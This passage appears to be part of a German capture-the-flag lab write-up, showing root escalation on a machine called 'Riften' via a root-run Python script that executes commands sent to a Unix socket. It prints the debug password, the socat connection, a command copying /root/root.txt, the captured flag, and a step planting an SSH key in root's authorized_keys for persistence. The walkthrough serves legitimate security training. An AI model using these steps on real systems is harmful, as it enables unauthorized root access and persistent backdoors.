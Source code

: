 In diesem Skript ist ersichtlich, dass nach der Eingabe des korrekten Passwords, alle Strings, welche an den `/run/cloak.sock` Socket geschickt werden, als System-Kommandos ausgeführt werden. Inspiziert man alle laufenden Python-prozesse, ist ersichtlich, dass ebendieses Skript von root ausgeführt wurde:

```.shell!
stormcloak@Riften:~$ ps aux | grep python3
root         888  0.0  0.9  21716  9440 ?        Ss   Nov07   0:00 /usr/bin/python3 /opt/cloak.py
stormcl+   85158  0.0  0.2   6332  2104 pts/1    S+   12:53   0:00 grep python3
```

Das Passwort wurde im Skript als Hash gespeichert. Der Kommentar weist jedoch darauf hin, dass das Debugpasswort aus dem Heimverzeichnis von Stormcloak verwendet werden kann. Und bei der Eingabe wird tatsächlich das Passwort `snakesnakefish!` aus der Datei `/home/stormcloak/debugpassword.txt` akzeptiert.


\newpage

### Ausnützen des Unix-Sockets

Zuerst muss eine Verbindung mit dem Socket hergestellt werden. Dafür gibt es verschiedene Möglichkeiten, in diesem Fall wird das Tool `socat` verwendet, da es vorinstalliert und die Benutzung simpel ist:

```.shell!
socat - UNIX-CONNECT:/run/cloak.sock
```

Da alle Eingaben nun als Kommandos als Benutzer root ausgeführt werden, kann nun das letzte Flag ausgelesen werden. Dies geht jedoch nicht direkt mit einem Kommando wie `cat`, da der Output des Kommandos nicht zu sehen ist. Eine Möglichkeit ist es den Output in eine neue Datei weiterzuleiten, da so standardweise eine Datei erstellt wird, welcher von 'other' respektive von allen lokalen Benutzern gelesen werden kann.
Um die Verbindung mit dem Socket zu unterbrechen, kann ein ungültiger Befehl eingegeben werden, in diesem Fall 'asdf'.
```.shell!
cat /root/root.txt > /home/stormcloak/out
command executed!
enter command: asdf
asdf
an error has occured..
stormcloak@Riften:~$ cat ./out
cat ./out
Your flag is: 8e9e8455f6840e45e8c12798e7a47bf2 
```

**Gefundenes Flag:** root-Flag `/root/root.txt`


### SSH-Access für eine stabile Verbindung einrichten.

Für persistenz und einfacheren Zugriff, wurde bei root genau gleich wie beim Benutzer stormcloak, der eigene Public-Key für eine SSH Verbindung hintelegt.

Public-Key `id_rsa.pub` nach`/root/.ssh/authorized_keys` kopieren.
